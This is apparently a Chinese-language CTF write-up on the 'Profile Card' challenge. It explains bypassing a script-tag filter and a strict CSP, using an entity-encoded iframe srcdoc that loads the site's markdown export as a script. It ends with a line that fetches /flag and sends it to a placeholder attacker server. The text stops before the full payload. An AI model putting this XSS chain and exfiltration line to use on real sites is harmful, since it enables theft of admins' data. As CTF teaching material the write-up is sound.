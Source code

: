 # Profile Card

這題有個需要登入之後才能操作的網站，flag 是在 admin 才能存取的 `/flag` 裡面，所以第一個目標是要先在上面弄出 XSS 來才行。

登入之後可以看到它有幾個功能:

* Edit: 可以編輯頭像 url, title 和 bio (support markdown)
* Reset: 重設
* Export as html: 匯出為 html，會直接觸發瀏覽器的下載
* Export as markdown: 匯出為 md，會直接觸發瀏覽器的下載
* FLAG: Admin 才能存取的 `/flag`
* Report to Admin: 通過 PoW 之後可以 submit 給 Admin Bot 去瀏覽

顯然目標是要透過 Edit 的功能去觸發 XSS，測試一下 bio 可以知道它能塞一些 html 進去，但是可以注意到 `<script>` 會被強制替換為 `<bad>`。此時自然會想到能不能利用 `<img src=1 onerror=alert(1)>` 繞過，測試一下會發現它有成功出現在 html 中，但是會觸發 CSP 的 `script-self 'self'` 規則。

完整的 CSP:
```
default-src 'none'; base-uri 'none'; connect-src 'self'; img-src http: https:; style-src 'self'; script-src 'self'
```

`script-src` 的繞過方法顯然是要找有沒有 host 在同個網站上的其他頁面可以 serve 自己的 payload。這個可以很容易的在 Export as markdown 功能的 `/export?format=markdown` 找到，所以只要能有 `<script src="/export?format=markdown"></script>` 就有機會觸發 XSS。

這邊會遇到個困難點是 `<script>` 就算有 attribute 也還是會被轉換成 `<bad>`，我這邊的做法是利用 `<iframe srcdoc="..."></iframe>`，然後其中的 payload 使用 `&#x3c;&#x73;&#x63;...` 格式的 html entities 去 encode，這樣就能繞過 filter。

> 生成 payload 的工具我用的是 [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_HTML_Entity(true,'Hex%20entities')&input=PHNjcmlwdCBzcmM9Ii9leHBvcnQ/Zm9ybWF0PW1hcmtkb3duIj48L3NjcmlwdD4) 去 encode 的

目前已經可以讓它載入 `<script src="/export?format=markdown"></script>`，下個目標是要讓 markdown 內容成為 legal 的 js 才能 xss。

其 markdown 格式如下:

```
[![](/static/default-avatar.png)](https://github.com/username)

# @username

### Title

---

Bio
```

其中 url, username, title 和 bio 都是可控的，所以可以讓 url 成為 `alert(1))]/*`，而 Bio 的最後面(`</iframe>` 後面)加上 `*/` 就能讓整個 markdown 成為正常的 js 去觸發 XSS。

XSS 之後就 `fetch('/flag')`，然後因為 `connect-src 'self';` 的關係，需要用 `top.location = 'https://YOUR_SERVER/?' + flag` 這樣的方法把 flag 回傳。

完整 payload:

avatar url:
